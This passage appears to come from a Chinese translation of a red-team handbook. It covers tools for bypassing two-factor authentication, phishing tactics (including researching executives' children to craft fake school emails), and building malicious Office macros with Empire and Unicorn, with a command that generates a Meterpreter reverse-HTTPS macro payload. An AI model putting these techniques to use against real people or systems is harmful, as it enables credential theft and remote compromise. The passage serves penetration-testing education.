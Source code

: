还有一些其他工具可以处理不同的双因素验证绕过的情境：
 - https://github.com/kgretzky/evilginx 
 - https://github.com/ustayready/CredSniper

还有一件事，当对需要双因素认证的网络资源进行身份验证时，请确保你在得到身份凭据后要尝试使用多种不同的身份验证方法。我的意思是，一些产品可能在 Web 门户网站的身份验证页面使用了双因素验证，但在 API、旧的客户端或所有的应用程序终端上可能并没有使用双因素验证。我们已经看到许多应用程序在公共终端上要求双因素验证，但在应用程序的其他部分则缺乏相应的安全保护。

## 网络钓鱼
另一个红队已经用之取得了巨大成功的技术是传统的网络钓鱼。网络钓鱼的秘诀在于激发受害者的恐惧感或者紧迫感，有时也会向受害者描绘一些非常美好(甚至不太真实)的诱惑。我相信你以前肯定见过一些恐惧感和紧迫感确发挥巨大威力的情境。利用受害者恐惧和紧迫心理进行攻击的一些例子包括：
- 一封带有欺诈性购买的虚假电子邮件
- 有人黑进了你的电子邮件消息
- 有关税务欺诈的电子邮件

这些一般性攻击的问题是，我们已经注意到公司员工变得越来越聪明。通常，每10封基本钓鱼式攻击邮件中至少有1封会被上报。在某些情况下，比例甚至更高。这些情况对于一个红队来说是很有价值的，红队可以持续监控这些简单的网络钓鱼攻击，看看公司在对这些情况的响应方面是不是有所进步。

对于那些寻求自动化钓鱼攻击的人，我高度推荐 [Gophish](http://getgophish.com/documentation/)。Gophish 非常易于设置和维护，并且支持模板和 HTML，另外它还会跟踪和记录你所需的一切。如果你是 Ruby 的粉丝的话，[Phishing Frenzy](https://github.com/pentestgeek/phishing-frenzy)就是一个使用 Ruby 语言写的很好的工具。当然，少不了的也有用 python 语言写的工具，[King Phisher](https://github.com/securestate/king-phisher) 就是使用 Python 开发的。

这些自动化工具非常适合记录简单的网络钓鱼活动。但是对于我们的目标活动，我们得采用更加手工化的方法。例如，如果我们对受害者的邮件记录进行了一些侦察，了解到客户使用 Office365 ，那么我们就可以思考一下如何利用这个信息来策划一场具有高可行度的入侵行动。此外，我们还试图寻找该公司泄露信息的电子邮件，从中来捕捉任何其他可能有帮助的信息，包括他们可能正在运行的程序、新的特性、系统升级、代码合并等等。

我们有时还会开展更具针对性的行动。在这些行动中，我们尝试使用所有的开源工具来搜索有关人员及其财产、家庭等的信息。例如，针对一些公司高管，我们会在 pipl.com 上搜索他们，获取他们的社交媒体帐号，找出他们的孩子上学的地方。然后我们向他们发送一封欺骗性电子邮件，假装是学校发的，说他们需要打开这个 word 文档。要做完这一系列事情可能要花费很长时间，但好处在于成功率很高。


### Microsoft Word/Excel 宏文件
虽然是很老旧，但向受害者发送恶意的 Microsoft Office 文件仍然是久经考验的一种社会工程学攻击方法。那为什么 Office 文件非常适合作为恶意 payload 的载体呢？这是因为 Office 文件的默认设置是支持 VBA 代码所以允许 VBA 代码的代码执行。尽管最近这种方法已经很容易被杀毒软件检测到，但在经过混淆处理之后，在很多情况下仍然可以生效。

在最基础的水平上，我们可以使用 Empire 或 Unicorn 来创建一个 VBA 宏：
- 使用 Empire:
    - 选择 Macro Stager
        - usestager windows/macro
    - 确保进行正确的配置
        - info
    - 创建宏
        - generate
- 如果你想为 Meterpreter 创建一个 payload ，我们可以使用像 Unicorn 这样的工具:
    - cd /opt/unicorn
    - ./unicorn.py windows/meterpreter/reverse_https [your_ip] 443 macro
    - 启动一个 Metasploit Handler
        - msfconsole -r ./unicorn.rc
        
一旦生成成功，你的 payload 将如下所示：
